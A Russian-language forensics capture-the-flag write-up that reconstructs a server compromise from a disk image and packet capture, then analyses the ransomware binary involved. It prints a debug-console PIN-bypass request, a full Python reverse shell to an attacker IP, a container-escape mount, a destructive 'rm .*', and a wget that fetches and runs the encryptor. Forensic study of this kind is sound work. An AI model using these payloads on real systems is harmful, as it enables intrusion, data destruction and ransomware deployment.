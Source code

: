 # Начало

## Изучение диска

Сначала я увидел `image.img` и `dump.pcapng` (на кали).

Сразу я решил открыть `image.img` через `testdisk` и скопировал себе в папку `image/` некоторые директории из корня:
`bin.usr-is-merged/`, `home/`, `media/`, `opt/`, `root/`, `tmp/`, `etc/`, `lib.usr-is-merged/`, `mnt/`, `proc/`, `sbin.usr-is-merged/`, `var/`

Сразу обратил внимание, что в `opt/` есть Addition для VirtualBox (эта информация не пригодилась)

Далее я обратил внимание на содержимое `/home/ioal/`. Там была папка `app/`, внутри которой вроде было приложение в докере, но все файлы оканчивались на `.enc` и внутри ничего не было понятно

## Запуск системы

После этого я решил запустить эту систему через

```
qemu-system-x86_64 \
 -m 4096 \
 -drive format=raw,file=image.img \
 -cpu host \
 -smp 6 \
 -machine type=q35,accel=kvm
```

Внутри была Ubuntu 24.04.1 LTS (Noble Numbat) и единственный аккаунт `ioal`

## Попытка входа

Пароль от него я не знал, поэтому решил скопировать себе `/etc/password` и `/etc/shadow`

Я прописал `fdisk --list image.img` и узнал оффсет раздела с убунтой - `4096` (`4096 * 512 = 2097152`)

Далее я создал папку `/mnt/tmp` (на кали) и прописал `sudo losetup --offset 2097152 /dev/loop667 image.img` и `sudo mount /dev/loop667 /mnt/tmp`

Таким образом я скопировал себе `/etc/password` и `/etc/shadow` и попытался узнать пароль от `ioal` с помощью `john`, но, к сожалению, не вышло (остановил проверку хеша на 58.1% на вордсете `rockyou.txt` (в кали `/usr/share/wordset/rockyou.txt.gz` распаковал через `gunzip` в `/usr/share/wordset/rockyou.txt`))

Тогда я просто решил `sudo chroot /mnt/tmp/` и через `useradd qwerty`, `passwd qwerty` создал себе пользователя, которому через `usermod qwerty -aG sudo` выдал доступ к `sudo` (я потом еще пожалел о том, что сразу не создал `/home/qwerty`, потому что файловый менеджер (Nautilus вроде) уничтожил мне виртуалку сообщениями об ошибке)

Я заметил, что хост называется `fileshare`, а его айпи (`ip a`):
- enp0s2: `10.0.2.15/24` (DNS `10.0.2.3`)
- br-4d2c7d1f6f87: `172.18.0.1/16`
- docker0: `172.17.0.1/16`

В `/root/.bash_history` я обнаружил следы, вероятно, организаторов:
```
cd nto-forensics/
ls
cp -r project /home/ioal/app
cd /home/ioal
ls
cd app
ls
cd ../
chown -h
chown --help
chown -hR ioal ./app
ls -al
exit
cd nto-forensics/
ls
ls -al
cd ../
```

И заметил, что в `/home/ioal/` нет никаких файлов

## Создание лога журнала

Дальше я сделал себе свой `system.log` при помощи `sudo journalctl --no-tail > /home/qwerty/main.log`, после чего срезал его до `/home/qwerty/prev.log` (без запуска 26 марта и позже, т.е. только 16 января и 22 января)

Я очень долго копался в логах журанала, но ничего толкового так и не нашел (нашел пару выключений при помощи кнопки выключения, несколько резких выключений, действия AppArmor'а (обычно над фаерфоксом) и всякое другое)

# Продолжение

После всего этого я устал и решил наконец открыть `dump.pcapng` (на кали)

Сначала я вслучайную нажимал на пакеты и в какой-то момент обнаружил в TCP DATA строку
```
root@7a5a67189bc9:/app#
```
Которая исходила от `172.18.0.3` к `10.10.10.12` (не `.3`), затем от `10.10.10.3` к `10.10.10.12` (на порт 9001)

Потом заметил команды, которые исходили от `10.10.0.12` (9001) к `10.10.10.3`, затем от `10.10.10.12` (не `.03`) к `172.18.0.3`

И понял, что надо просто просмотреть все пакеты по очереди и оценить находки

## Действия в дампе трафика

Последовательно переключая пакеты я понял, что:

Все проделки идут от `10.10.0.12` через `10.10.10.3` (просто ретрансляция, видимо тогда айпи был не `10.0.2.15` или было еще одно подключение и машина тогда была `10.10.10.3`) на `172.18.0.3`

Как помнится по айпи на хосте, `172.18.0.0` - это мост докера (значит `172.18.0.3` - это сам сервис)

В докере был запущен python сервис, у которого был путь /console, доступ к которой получил злоумышлиник (`10.10.10.12` через `10.10.10.3`) и нашел там "SECRET"="yqqPfQiFZmXsmnZQYMPF" в разделе <script> в теле HTML

Далее злоумышлиник подобрал url так, что смог обойти пин-код при помощи этого secret'а
```
GET /console?__debugger__=yes&cmd=pinauth&pin=123-456-789&s=yqqPfQiFZmXsmnZQYMPF
```
и получил доступ к python консоли, в которую вписал реверс-шелл
```
/console?&__debugger__=yes&cmd=import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.10.12%22%2C9001))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22bash%22)&frm=0&s=yqqPfQiFZmXsmnZQYMPF
```
Команда реверс-шелла:
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.12",9001))
os.dup2(s.fileno(),0)
 os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("bash")
```

И, получил доступ к `root` в докере при помощи `ls /dev`, 'mount /dev/sda2 /mnt`, `cd /mnt/home`

Потом прописал эти команды:
```
cd ioal
rm .*
cd ../
cd ioal
wget http://81.177.221.242:8125/app
```
`rm .*` удалил все файлы в домашней директории, а `wget` пожаловался на то, что директория `app` уже есть (в ней был тот самый докер сервис)
```
ls
cd ../
wget http://81.177.221.242:8125/app
./app
chmod +x app
./app
exit
```

С помощью этих команд злоумышленник поднялся в `/home` и запустил шифровальщик

При запуске этот `app` несколько раз написал
```
CUSTOM_write found, patched.
ok
```
И затем
```
Encrypting .//app: Encrypting .//ioal/app/docker-compose.yml: Encrypting .//ioal/app/server/requirements.txt: Encrypting .//ioal/app/server/wait-for-postgres.sh: Encrypting .//ioal/app/server/Dockerfile: Encrypting .//ioal/app/server/templates/index.html: Encrypting .//ioal/app/server/__init__.py: Encrypting .//ioal/app/server/assets/css/listr.pack.css: Encrypting .//ioal/app/server/assets/css/custom.css: Encrypting .//ioal/app/server/assets/css/jquery.filer.css: Encrypting .//ioal/app/server/assets/fonts/fontawesome-webfont.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.ttf: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer-preview.html: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.svg: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.eot: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.cs
```

Таким образом все оставшиеся файлы в домашней директории и сам `app` были зашифрованы

# Решение задач

Я просто начал выписывать соответствующие пакеты (их содержимое) и их номер + время

Когда я дошел до `app` я решил погуглить `"CUSTOM_write found"` и нашел единственную ссылку на проект на гитхабе ([linux-anti-debugging](https://github.com/tobyxdd/linux-anti-debugging/)), который использовал `ptrace` для обфускации

Я предположил, что `app` работает так же

## Задание 2-3

Я решил проверить, правда ли `app` работает схожим образом.

Я прогнал его через `strace` (`strace ./app > /home/qwerty/app.strace.log 2>$1`) и выяснил, что вывод содержит много примерно одинаковых строчек:

```
wait4(4824, [{WIFSTOPPED(s) && WSTOPSIG(s) == SIGTRAP}], 0, NULL) = 4824
ptrace(PTRACE_SYSCALL, 4824, NULL, 0)   = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_TRAPPED, si_pid=4824, si_uid=1001, si_status=SIGTRAP, si_utime=0, si_stime=0} ---
```

И несколько раз отвечает
```
ptrace(PTRACE_SYSCALL, 4824, NULL, 0ok
)   = 0
```

Это значит, что приложение использует `ptrace` так же, как и в приведенном аналоге (маскирует свои сисколлы через `ptrace` для подмены) для скрытности

## Задание 2-6

Как настало время решать 2-6 я скачал `app` себе на кали при помощи таковой функции в wireshark'е (файл -> экспортировать объекты -> HTTP -> text/plain app)

Когда я решил открыть его в `ghidra`, я увидел в конце текст, который потом еще раз увидел при помощи `strings ./app`:
```
...
PROT_EXEC|PROT_WRITE failed.
_j<X
$Info: This file is packed with the t
Z executable packer http://upx.sf.net $
$Id: t
Z 4.24 Copyright (C) 1996-2024 the t
Z Team. All Rights Reserved. $
_RPWQM)
j"AZR^j
PZS^
/proc/self/exe
...
```

Это означало что `app` был сжат при помощи `upx`

Этот `upx` был скачан на кали, но когда я использовал `upx -d ./app` он мне сказал, что не в его кондициях распаковать этот файл (так же ответил и скачанный мной напрямую с гитхаба, более новой версии)

Тогда я решил поэкспериментировать с этим приложением и пошифровал несколько тестовых файлов, но, к сожалению, не в моих силах было разобрать алгоритм шифрования

Проконсультировавшись с `gemini-2.5-pro-exp-03-25`, мне было предложено использовать `hexdump`, и, хотя данные (след/отпечаток) не совпали с ни одним известным гемини методом шифрования, я увидел сигнатуру `beef dead bade c0fe`, которая присутствовала во всех зашифрованных файлах (пример с `Dockerfile.enc`):

`hexdump ./Dockerfile.enc`
```
0000000 beef dead bade c0fe 2ad6 50f9 b923 a3f6
0000010 8583 09fe 8c9f 3e36 73e0 e4cc 2159 a88f
0000020 eca6 af29 8993 638d b272 1cac 77fc 79a3
0000030 cfc2 674c 18d8 259c 705b 309b e774 711d
0000040 7f50 8519 9c6b a4e6 f8b4 82b3 4ba0 a875
0000050 7a7f 9f27 e4ca 8e9e b3cf d310 f56d 4fdf
0000060 895b f9fa 0165 e527 9d69 1eb1 5637 155a
0000070 45b0 d999 d4e0 571e 4154 6998 5e5d b671
0000080 3736 70cc b1e8 4307 9b63 377f b983 7e02
0000090 6ab2 3f23 c057 08ab 81c0 3986 5225 acea
00000a0 4fb8 420c 7fb1 b1f1 7e31 38aa 2753 56c6
00000b0 8655 2090 4c4d 362e b94a 13d5 248e 96f6
00000c0 414a 8e69 03db 82f6 4061 1a95 898a bda1
00000d0 b951 98ac cf49 041d e188 5c04 9f32 b3b9
00000e0 c4e8 cb05 fd77 211b fc10 fc47 b35c 87bb
00000f0 7f5e cd64 5aa3 2ded ea50 674e 49f7 69b5
0000100 ac54 4cc9 9cfb 4bcd 7d78 4e34 8a62 a862
0000110 dc5a ee26 b93e cade                    
0000118
```
